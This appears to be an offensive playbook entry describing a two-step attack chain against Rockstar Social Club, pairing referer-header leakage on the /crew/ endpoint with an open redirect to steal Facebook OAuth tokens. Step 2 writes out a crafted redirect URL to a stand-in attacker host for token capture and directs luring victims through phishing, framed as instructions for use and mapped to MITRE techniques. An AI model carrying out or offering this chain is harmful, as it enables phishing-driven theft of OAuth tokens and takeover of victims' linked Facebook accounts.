

# Chained Referer Leakage and Open Redirect for Facebook OAuth Token Theft on Rockstar Social Club

Multi-stage attack chain demonstrating how referer header leakage in the socialclub.rockstargames.com/crew/ endpoint, combined with an open redirect on Rockstar-owned domains, enables the theft of Facebook OAuth tokens, potentially leading to unauthorized access to linked Facebook accounts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)
- Proxy tool like Burp Suite for intercepting requests (optional but recommended)

### Target Environment

- Web platform
- Access to Rockstar Social Club (socialclub.rockstargames.com)
- Valid Facebook OAuth flow initiated on Rockstar domains

### Initial Access Requirements

- User must be authenticated or simulating a login flow with Facebook OAuth
- Network access to Rockstar and Facebook domains
- No prior privileged access needed, but victim interaction assumed for full chain

## Detailed Attack Procedures

### Step 1: Identify Referer Leakage
procedure: [[procedures/Exploit-Referer-Leakage-in-Crew-Endpoint]]

**Objective**: Detect and confirm that the full URI, including sensitive Facebook OAuth tokens, is leaked via the Referer header when navigating between Rockstar-owned domains due to absent strict referrer policy.

**Instructions**: Open the target site in a browser and initiate a Facebook OAuth login flow to obtain a token in the URI (e.g., https://socialclub.rockstargames.com/crew/?oauth_token=exampletoken). Then navigate to another Rockstar domain endpoint like /crew/. Use browser developer tools (Network tab) to inspect the request headers for the leaked Referer containing the full URI with the token. Alternatively, use a proxy like Burp Suite to intercept and log the Referer header.

**Expected Output**: Referer header shows full source URI with sensitive parameters, e.g., "Referer: https://socialclub.rockstargames.com/crew/?oauth_token=exampletoken&state=xyz".

**Success Indicators**:
- Full URI with OAuth token visible in Referer header
- No Referrer-Policy: strict-origin-when-cross-origin or similar enforced

### Step 2: Chain with Open Redirect
procedure: [[procedures/Chain-Open-Redirect-to-Expose-OAuth-Tokens]]

**Objective**: Leverage an open redirect vulnerability on Rockstar domains to force navigation that triggers the referer leakage, exposing the OAuth token to an attacker-controlled endpoint.

**Instructions**: From a separate report, identify the open redirect endpoint (e.g., on a Rockstar domain allowing arbitrary redirects). Craft a malicious link that redirects from the /crew/ endpoint (with leaked token in URI) to an attacker-controlled site. For example, construct a URL like https://vulnerable.rockstargames.com/redirect?url=https://attacker.com/capture, where the redirect is triggered after the OAuth URI load. Lure a victim to click or embed this in a phishing page. Monitor the attacker site for incoming requests with the leaked Referer header containing the token.

**Expected Output**: Attacker server logs show incoming request with Referer header including the victim's OAuth token.

**Success Indicators**:
- Redirect successfully navigates without validation
- OAuth token captured in Referer on attacker domain
- Potential CSRF element if form submission is forced without tokens

## Attack Chain Summary

### Key Achievements

1. Confirmed referer leakage exposes full URIs with sensitive OAuth parameters between same-origin domains.
2. Chained open redirect to exfiltrate the leaked data to external attacker control.
3. Enabled potential Facebook account takeover via stolen tokens.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Steal Web Session Cookie]] Steal Web Session Cookie
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Collection]] Collection
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
